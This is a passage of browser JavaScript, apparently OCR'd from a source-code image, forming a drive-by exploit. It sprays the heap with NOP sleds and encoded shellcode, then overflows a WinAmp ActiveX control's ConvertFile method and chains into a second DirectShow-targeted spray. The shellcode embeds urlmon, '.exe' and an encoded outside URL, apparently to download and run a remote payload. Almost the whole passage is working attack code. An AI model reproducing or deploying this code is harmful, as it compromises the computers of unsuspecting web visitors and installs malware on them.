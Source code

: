```
		obj.id = 'IWinAmpActiveX';
		obj.width = '1';
		obj.height = '1';
		obj.data = './directshow.php';
		obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
		var shellcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u333D');
		var bigblock = unescape('%u0c0c%u0c0c');
		var headersize = 20;
		var slackspace = headersize + shellcode.length;
		while (bigblock.length < slackspace)
			bigblock += bigblock;
		var fillblock = bigblock.substring(0, slackspace);
		var block = bigblock.substring(0, bigblock.length - slackspace);
		while (block.length + slackspace < 262144)
			block = block + block + fillblock;
		var memory = new Array();
		for (var i = 0; i < 666; i++) {
			memory[i] = block + shellcode;
		}
		document.write('<SCRIPT language="VBScript">');
		document.write('bof=string(1400,unescape("%ff")) + string(1000,unescape("%0c"))');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('</SCRIPT>');
	} catch (e) {
	}
	directshow();
}
function directshow() {
	var shellcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u343D');
	var bigblock = unescape('%u9090%u9090');
	var headersize = 20;
	var slackspace = headersize + shellcode.length;
	while (bigblock.length < slackspace)
		bigblock += bigblock;
	var fillblock = bigblock.substring(0, slackspace);
	var block = bigblock.substring(0, bigblock.length - slackspace);
	while (block.length + slackspace < 262144) {
		block = block + block + fillblock;
	}
	var memory = new Array();
	for (var i = 0; i < 350; i++) {
		memory[i] = block + shellcode;
	}
	try {
```